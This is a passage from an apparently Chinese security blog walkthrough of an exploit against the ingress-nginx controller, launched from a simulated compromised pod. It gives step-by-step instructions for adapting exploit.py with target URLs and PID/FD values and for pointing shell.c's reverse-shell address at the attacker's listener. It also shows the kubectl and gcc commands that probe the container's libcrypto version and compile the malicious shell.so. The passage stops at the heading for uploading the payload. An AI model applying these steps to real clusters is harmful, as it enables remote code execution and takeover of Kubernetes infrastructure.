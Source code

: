 2、修改EXP  
```
vim exploit.py
```  
  
由于我这里的环境是模拟失陷POD（贴近实际），属于集群内部网络访问，无需端口转发，用第6、7行的URL即可，注释12、13行；  
  
修改第25、26行PID值和FD值，根据经验判断或者进入ingress容器查看进程可知PID值大约为26开始，FD值大约为6开始  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFI3Ld8FFEpk2uaVWqnGemvYVmf8DjhKqPwsRuWLUicO4mUennCbYwQBibGfpWqibZ1HUvVdWCdNeZ9Vg/640?wx_fmt=png&from=appmsg "")  
  
完善脚本，删除47行的 return   
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFI3Ld8FFEpk2uaVWqnGemvYSiajGf3kLHt8qCKb6mgA3bthkDZficv7mMGNeyN9xkBOeDvIG8H8XEkg/640?wx_fmt=png&from=appmsg "")  
  
修改shell.c  
```
vim shell.c
```  
  
服务器地址改成自己攻击机的监听地址  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFIGUaNgr4ZW9m40a4icqdRs2vXicsnatO8YZAx0B5SFyNstVLuCDnEclibOkg7iaU2TH18ibr0xEheU5UA/640?wx_fmt=png&from=appmsg "")  
### 二、打造武器  
  
  
编译前，先了解ingress-nginx controller执行.so文件依赖的库版本，编译时指定同样的库版本  
```
kubectl get pod -n ingress-nginx

kubectl exec -it -n ingress-nginx ingress-nginx-controller-85f587f9d4-gwm8r -- bash
#进入ingress容器之后执行
find / -name "libcrypto.so*" 2>/dev/null
```  
  
确认ingress-nginx controller容器中库版本是3版本   
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFI3Ld8FFEpk2uaVWqnGemvY73rrE2faU9Ekna14kicCiafAQfqNiabbTy0AeHlEHLxChyCtvBee5WC0Q/640?wx_fmt=png&from=appmsg "")  
  
同样，看一下编译的机器库版本，发现有3版本可以用  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFI3Ld8FFEpk2uaVWqnGemvYnvAqzfREPZ0gpJXNCRibjpVPHQRIZwficVYlliaLib6UcOcLXZUlicOBR4w/640?wx_fmt=png&from=appmsg "")  
  
于是使用下面的命令指定库进行编译  
```
gcc -fPIC -Wall -shared -o shell.so shell.c /var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/2/fs/usr/lib/x86_64-linux-gnu/libcrypto.so.3

#验证
ldd shell.so
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFI3Ld8FFEpk2uaVWqnGemvY9GOGwBoBQ0zDKddawcGRezpb7LDwQZXxxBzn7cI2lQpXLZBmupRgIg/640?wx_fmt=png&from=appmsg "")  
### 三、上传武器  
  